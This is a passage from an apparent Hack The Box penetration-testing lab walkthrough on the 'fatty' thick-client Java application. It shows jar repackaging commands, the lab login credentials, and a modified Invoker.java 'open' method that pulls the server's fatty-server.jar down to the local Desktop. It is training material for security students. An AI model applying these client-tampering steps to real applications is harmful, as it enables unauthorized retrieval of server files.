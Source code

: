 ```powershell
cd raw
jar -cmf META-INF/MANIFEST.MF traverse.jar .
```

```
PS C:\Users\cybervaca\Desktop> cd raw
PS C:\Users\cybervaca\Desktop\raw> jar -cmf META-INF/MANIFEST.MF traverse.jar .
```

Once completed, students need to launch `traverse.jar` and authenticate as `qtc:clarabibi`. Then, they need to go to `FileBrowser` --> `Configs`, viewing the start.sh script:

![[HTB Solutions/CPTS/z. images/aacefd3b9f6dfae0f941981297dfe399_MD5.jpg]]

This utility allows the thick client to view/retrieve files hosted on the remote server, and reveals the existence of the application server `fatty-server.jar`.

Now, students need to modify the `open` function in `fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java` to be able to download the file `fatty-server.jar`:

Code: java

```java
import java.io.FileOutputStream;
```

![[HTB Solutions/CPTS/z. images/5521b929fc6b767388c54b5db77907d9_MD5.jpg]]

Code: java

```java
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
```
